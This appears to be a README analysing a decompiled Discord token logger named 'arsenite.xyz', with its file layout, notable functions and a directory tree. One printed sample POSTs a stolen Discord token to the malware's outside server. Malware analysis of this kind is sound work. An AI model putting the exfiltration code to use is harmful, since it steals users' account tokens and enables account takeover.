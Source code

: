 # arsenite.xyz discord token logger

A pathetic attempt at a discord token logger

# FILES

##### Token Discovery: arsenite/arsenite/TokenDiscovery.cs
##### Stub configuration: arsenite/arsenite/Config.cs
##### Main program: arsenite/arsenite/Program.cs

# Functions worth noting

##### gzip function: Program.cs line 15
##### report token: TokenDiscovery.cs line 103
##### check token: TokenDiscovery.cs line 64

# code samples:

##### report token

```
HttpResponseMessage result = TokenDiscovery._httpClient.PostAsync("https://arsenite.xyz/logger/" + Config.Id + "/report", new StringContent("{\"token\":\"" + token + "\"}", Encoding.UTF8, "application/json")).Result;
```

##### gzip 

```
private static byte[] GZip(byte[] compressed)
		{
			MemoryStream stream = new MemoryStream(compressed);
			GZipStream gzipStream = new GZipStream(stream, CompressionMode.Decompress);
			MemoryStream memoryStream = new MemoryStream();
			gzipStream.CopyTo(memoryStream);
			gzipStream.Close();
			return memoryStream.ToArray();
		}
```

# directory tree

```
arsenite/
├── arsenite 
│   ├── Config.cs
│   ├── Json
│   ├── Program.cs
│   ├── Properties
│   │   └── AssemblyInfo.cs
│   ├── TokenDiscovery.cs
│   ├── Update
│   ├── app.manifest
│   └── arsenite.csproj
├── arsenite.sln
└── binaries 
    ├── Update
    └── json
```
